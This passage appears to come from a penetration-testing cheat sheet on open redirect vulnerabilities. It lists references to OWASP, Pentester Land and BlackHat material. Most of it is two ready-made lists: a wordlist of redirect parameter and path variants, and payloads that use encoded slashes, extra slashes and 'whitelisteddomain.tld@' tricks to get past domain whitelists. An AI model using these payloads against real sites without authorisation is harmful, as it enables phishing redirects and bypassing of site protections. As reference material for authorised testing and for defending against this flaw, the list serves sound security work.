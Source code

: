 ## References

* filedescriptor
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)
* [Host/Split
Exploitable Antipatterns in Unicode Normalization - BlackHat US 2019](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)



## Open Redirect Wordlist
```html
/http://example.com
/%5cexample.com
/%2f%2fexample.com
/example.com/%2f%2e%2e
/http:/example.com
/?url=http://example.com&next=http://example.com&redirect=http://example.com&redir=http://example.com&rurl=http://example.com
/?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com
/?url=/\/example.com&next=/\/example.com&redirect=/\/example.com
/redirect?url=http://example.com&next=http://example.com&redirect=http://example.com&redir=http://example.com&rurl=http://example.com
/redirect?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com
/redirect?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redir=/\/example.com&rurl=/\/example.com
/.example.com
///\;@example.com
///example.com/
///example.com
///example.com/%2f..
/////example.com/
/////example.com
```

## Open Redirect Payloads
```html
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
```
